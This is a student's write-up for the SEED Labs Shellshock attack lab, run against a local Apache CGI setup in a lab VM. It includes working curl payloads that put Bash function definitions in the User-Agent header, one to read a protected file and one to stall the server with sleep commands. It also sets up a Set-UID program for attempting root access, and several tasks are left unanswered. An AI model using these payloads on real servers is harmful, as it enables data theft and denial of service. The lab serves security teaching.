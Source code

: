 # SEEDlabs: Shellshock Attack Lab

#### Ozgur Ural
#### Student ID: 2564455

## 1 Lab Description

On  September  24,  2014,  a  severe  vulnerability  in  Bash  was  identified.  Nicknamed  Shellshock,  this vulnerability can exploit many systems and be launched either remotely or from a local machine. In this  lab,  students  will  work  on  this  attack  to  understand  the  Shellshock  vulnerability.  The  learning objective  of  this  lab  is  for  students  to  get  a  hands-on  experience  on  this  interesting  attack, understand how it works, and reflect on the lessons learned from using this attack.


##  2 Lab Tasks

## 2.1 Environment Setup
The Bash program in Ubuntu 16.04 has already been patched, so it is no longer vulnerable to the  Shellshock  attack.  For  the  purpose  of  this  lab,  we  have  installed  a  vulnerable  version  of Bash inside the /bin folder; its name is bash shellshock. We need to use this Bash in our task. Please run this vulnerable version of Bash like the following and then design an experiment to verify whether this Bash is vulnerable to the Shellshock attack or not.

```sh
$ /bin/bash_shellshock
```

##  2.2    Task 1: Attack CGI programs
In  this  task,  we  will  launch  the  Shellshock  attack  on  a  remote  web  server.  Many  web  servers enable CGI, which is a standard method used to generate dynamic content on Web pages and Web  applications.  Many  CGI  programs  are  written  using  shell  script.  Therefore,  before  a  CGI program is executed, the shell program will be invoked first, and such an invocation is triggered by a user from a remote computer.

Set up the CGI Program. Create a very simple CGI program (called myprog.cgi) using the root account  in  folder  /usr/lib/cgi-bin/  as  the  following.  Make  this  cgi  executable  by  running  ”chmod 755 myprog.cgi”. It simply prints out "Hello, I am Shellshock!!" using shell script.

```sh
#!/bin/bash
echo "Content-type: text/plain"
echo
echo
echo "Hello, I am Shellshock!!"
```
The  above  CGI  program  in  the  /usr/lib/cgi-bin  directory  and  is  executable.  This  folder  is  the default  CGI  directory  for  the  Apache  web  server.  To  access  this  CGI  program  from  the  Web, you can either use a browser by typing the following URL: http://localhost/cgi-bin/myprog.cgi, or use the following command line program curl to do the same thing:

```sh
curl http://localhost/cgi-bin/myprog.cgi
```
I did the required steps as you can see below:

```sh
[10/13/21]seed@VM:.../cgi-bin$ vim myprog.cgi
[10/13/21]seed@VM:.../cgi-bin$ sudo su
root@VM:/usr/lib/cgi-bin# vim myprog.cgi
root@VM:/usr/lib/cgi-bin# ll
total 12
drwxr-xr-x   2 root root 4096 Oct 13 16:52 ./
drwxr-xr-x 153 root root 4096 Jun 11  2019 ../
-rw-r--r--   1 root root   87 Oct 13 16:52 myprog.cgi
root@VM:/usr/lib/cgi-bin# chmod +x myprog.cgi 
root@VM:/usr/lib/cgi-bin# curl http://localhost/cgi-bin/myprog.cgi

Hello, I am Shellshock!!
root@VM:/usr/lib/cgi-bin#
```


In our setup, we run the Web server and the attack from the same computer, and that is why we use localhost. In real attacks, the server is running on a remote machine, and instead of using localhost, we use the hostname or the IP address of the server.

### Task  1A:  
Get  Secret  Data.  After  the  above  CGI  program  is  set  up,  you  can  launch  the Shellshock attack. The attack does not depend on what is in the CGI program, as it targets the Bash program, which is invoked first, before the CGI script is executed. Your goal is to launch the  attack  through  the  URL  http://localhost/cgi-bin/myprog.cgi,  such  that  you  can  achieve something that you cannot do as a remote user. In this task, you need to create an account.db file in directory /usr/lib/cgi-bin using the root account with some random content, e.g.,“ABCDE”. As  a  regular  user  without  the  permission  of  accessing  cgi-bin  folder,  you  now  need  to  get  the content  of  account.db  via  the  Shellshock  attack.  Please  describe  how  your  attack  works.  Note that, your screenshot of successful attack is required for this task.

```sh
[10/19/21]seed@VM:.../cgi-bin$ sudo ln -sf /bin/bash_shellshock /bin/sh
10/19/21]seed@VM:.../cgi-bin$ curl -A '() { echo "hello";}; echo Content_type: text/plain; echo; /bin/cat /usr/lib/cgi-bin/account.db' http://localhost/cgi-bi>
"OZGURURALACCOUNTDB"
```
The bash is not vulnerable in the seed setup. The vulnerable bash program on the seed setup is bash_shellshock. Therefore we used the bash_shellshock. We create a database file named account.db under the /usr/lib/cgi-bin and add an entry. Then we use the vulnerability of bash_shellshock and pass an enviroment variable starting with '() {' - indication a function to the child process, using the user-agent header field of the HTTP request. The vulnerability in the bash program not only converts this enviroment variable into function, but also executes the shell commands present in the environment variable string. We could read the db file with using this vulnerability.

### Task 1B: 
Crash the Server. In this task, we want to crash the server with the Shellshock attack. This kind of attack typically happens for a deny of service. In this task, the /bin/sleep function is your best friend to use in your attack. If you are not familiar with the sleep function, you can use sleep –help for more information. Please describe how your attack works.

```sh
[10/20/21]seed@VM:.../cgi-bin$ curl -A '() { echo "hello";}; echo Content_type: text/plain; echo; /bin/sleep 20| /sbin/sleep 20|/usr/bin/sleep 20'  http://localhost/cgi-bin/myprog.cgi
```

It attempts to run the sleep command in three different ways (since systems have slightly different configurations, sleep might be found in the directories /bin or /sbin or /usr/bin). Whichever sleep it runs, it causes the server to wait 20 seconds before replying. That will consume resources on the machine because a thread or process executing the sleep will do nothing else for 20 seconds. This is perhaps the simplest denial-of-service of all. The attackers simply tells the machine to sleep for a while. Send enough of those commands, and the machine could be tied up doing nothing and unable to service legitimate requests.

## 2.3 Task 2: Attack Set-UID programs
In  this  task,  we  use  Shellshock  and  bash  function  to  attack  Set-UID  programs,  with  a  goal  to gain  the  root  privilege.  Before  the  attack,  we  need  to  first  let  /bin/sh  to  point  to  /bin/bash  (by default,  it  points  to  /bin/dash  in  our  SEED  Ubuntu  VM).  You  can  do  it  using  the  following command:

```sh
$ sudo ln -sf /bin/bash /bin/sh
```

The following program is a Set-UID program, which simply runs the "/bin/ls -l" command. Please compile  this  code,  make  it  a  Set-UID  program,  and  make  root  be  its  owner.  As  we  know,  the system() function will invoke "/bin/sh -c" to run the given command, which means /bin/bash will 
be invoked. 

### Task  2A:  
Can  you  use  the  Shellshock  vulnerability  to  gain  the  root  privilege?  Please  explain 
why your attack can work (or not).
```sh
#include <stdio.h>
void main()
{
setuid(geteuid()); // make real uid = effective uid.
system("/bin/ls -l");
}
```
It should be noted that using setuid(geteuid()) to turn the real uid into the effective uid is not a 
common practice in Set-UID programs, but it does happen.
### Task  2B:  
Now,  remove  the  setuid(geteuid())  statement  from  the  above  program,  and  repeat your  attack.  Can  you  gain  the  root  privilege?  Please  show  us  your  experiment  results.  Please explain your lab results. (Hint: this problem can be considered similarly how the LD PRELOAD environment variable vulnerability happens in Lab 1).
### 2.4 Task 3: Where is the Vulnerability Comes From?
Task 3: The vulnerability is from the Bash source code: line-351 in variables.c. Please research 
(google it) and figure out why the parse and execute() will cause a security vulnerability.
### 2.5 Task 4: Questions
This is a writing task, please answer the following questions in your report:
### Task 4: 
According to secure software principles and rules, what is the fundamental problem of 
the Shellshock vulnerability? What can we learn from this vulnerability?


